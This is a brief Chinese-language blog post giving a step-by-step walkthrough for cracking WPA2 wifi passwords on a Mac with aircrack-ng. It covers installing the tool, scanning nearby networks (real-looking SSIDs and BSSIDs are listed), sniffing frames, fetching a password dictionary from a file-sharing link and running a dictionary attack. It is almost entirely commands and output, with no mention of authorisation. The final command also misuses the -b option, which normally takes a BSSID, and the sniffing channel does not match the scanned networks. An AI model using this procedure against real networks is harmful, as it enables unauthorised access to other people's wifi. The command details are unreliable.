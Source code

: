 ```yaml
---
layout: topic
module: Mac
title:  Mac下破解wifi密码
date:   2017-02-28
---
```


#### 安装Aircrack-ng

Homebrew安装方式:

```shell
$ brew link makedepend
$ brew install aircrack-ng
```

#### 链接airport

```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/sbin/airport
```

```bash
$ airport -s

        SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
    DP-Guest c4:14:3c:cb:87:14 -64  1       Y  CN WPA2(PSK/AES/AES) 
        MTDP 1c:1d:86:71:be:fd -69  165     Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES) 
          DP c4:14:3c:cb:87:10 -66  1       Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES) 
    DP-Guest 1c:1d:86:07:c4:44 -57  1       Y  CN WPA2(PSK/AES/AES) 
  MTDP_guest c4:14:3c:cb:87:16 -55  1       Y  CN NONE
         MBP 98:01:a7:9f:6c:f7 -62  1       Y  -- WPA2(PSK/AES/AES) 
        MTDP 1c:1d:86:07:c4:42 -54  1       Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES) 
     DP_tech c4:14:3c:cb:87:11 -64  1       Y  CN WPA2(802.1x,Unrecognized(0)/AES/AES)
```

#### 监听抓包

```bash
$ airport en0 sniff 6
Capturing 802.11 frames on en0.

Session saved to /tmp/airportSniffUpXJbV.cap.
```

#### 下载密码字典

下载地址: [https://pan.baidu.com/s/1o7MCcHk](https://pan.baidu.com/s/1o7MCcHk)

#### 破解wifi密码

```bash
sudo aircrack-ng -w password.txt -b /tmp/airportSniffUpXJbV.cap
```

#### 参考资料

1. [http://topspeedsnail.com/macbook-crack-wifi-with-wpa-wpa2/](http://topspeedsnail.com/macbook-crack-wifi-with-wpa-wpa2/)
